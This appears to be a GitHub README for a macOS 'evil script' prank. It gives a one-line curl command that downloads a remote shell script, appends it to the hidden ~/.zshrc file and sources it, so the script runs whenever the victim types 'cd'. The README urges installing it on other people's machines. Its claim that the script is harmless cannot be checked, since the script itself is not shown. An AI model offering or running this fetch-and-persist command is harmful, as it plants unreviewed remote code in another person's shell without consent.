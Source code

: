 # Installation
Note: The script is designed for entertainment only. It is not harmful to the machine. It is intended for zsh terminals and macOS environments.

### one-command injection:
```
curl -s https://raw.githubusercontent.com/Xylo-o/evil_script_42-macOS-/main/evil.sh >> ~/.zshrc && source ~/.zshrc
```

# Effect
After installation, the script will be placed in the ***.zshrc*** (hidden) file, which is the configuration file of the zsh terminal. It's launched by typing ***'cd'***.

***Please do it only to the people you REALLY hate*** ... or love, like your friends!
